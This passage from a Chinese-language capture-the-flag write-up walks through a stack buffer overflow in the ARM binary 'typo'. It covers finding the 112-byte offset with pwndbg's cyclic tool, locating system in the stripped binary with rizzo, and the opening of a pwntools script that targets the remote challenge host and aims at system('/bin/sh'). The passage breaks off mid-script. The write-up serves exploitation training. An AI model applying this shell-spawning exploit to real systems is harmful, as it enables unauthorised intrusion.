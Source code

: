 ```assembly


────────────────────────────────────────────────────[ STACK ]────────────────────────────────────────────────────
00:0000│ sp  0xfffef098 ◂— 0x62616165 ('eaab')
01:0004│     0xfffef09c ◂— 0x62616166 ('faab')
02:0008│     0xfffef0a0 ◂— 0x62616167 ('gaab')
03:000c│     0xfffef0a4 ◂— 0x62616168 ('haab')
04:0010│     0xfffef0a8 ◂— 0x62616169 ('iaab')
05:0014│     0xfffef0ac ◂— 0x6261616a ('jaab')
06:0018│     0xfffef0b0 ◂— 0x6261616b ('kaab')
07:001c│     0xfffef0b4 ◂— 0x6261616c ('laab')
Program received signal SIGSEGV
pwndbg> cyclic -l 0x62616164
112
```
因此 padding 长度即为 112
> 或者可以更暴力一点直接爆破栈溢出的长度

至于 system 的地址，因为这个 binary 被去除了符号表，我们可以先用 `rizzo` 来恢复部分符号表（关于恢复符号表暂时可以先看参考链接，以后会逐渐介绍）。虽然 rizzo 在这个 binary 上恢复的效果不好，但很幸运，在识别出来的几个函数中刚好有 system
```C
char *__fastcall system(int a1)
{
  char *result; // r0

  if ( a1 )
    result = sub_10BA8(a1);
  else
    result = (char *)(sub_10BA8((int)"exit 0") == 0);
  return result;
}
```
> 或者可以通过搜索 /bin/sh 字符串来寻找 system 函数
## exp
所有的条件都有了，构造 system("/bin/sh") 即可
```
jarvisOJ_typo [master●●] cat solve.py 
#!/usr/bin/env python
# -*- coding: utf-8 -*-

from pwn import *
import sys
import pdb
#  context.log_level = "debug"

#  for i in range(100, 150)[::-1]:
for i in range(112, 123):
    if sys.argv[1] == "l":
        io = process("./typo", timeout = 2)
    elif sys.argv[1] == "d":
        io = process(["qemu-arm", "-g", "1234", "./typo"])
    else:
        io = remote("pwn2.jarvisoj.com", 9888, timeout = 2)
    
    io.sendafter("quit\n", "\n")
    io.recvline()
    
    '''
    jarvisOJ_typo [master●●] ROPgadget --binary ./typo --string /bin/sh
    Strings information
    ============================================================
    0x0006c384 : /bin/sh
```
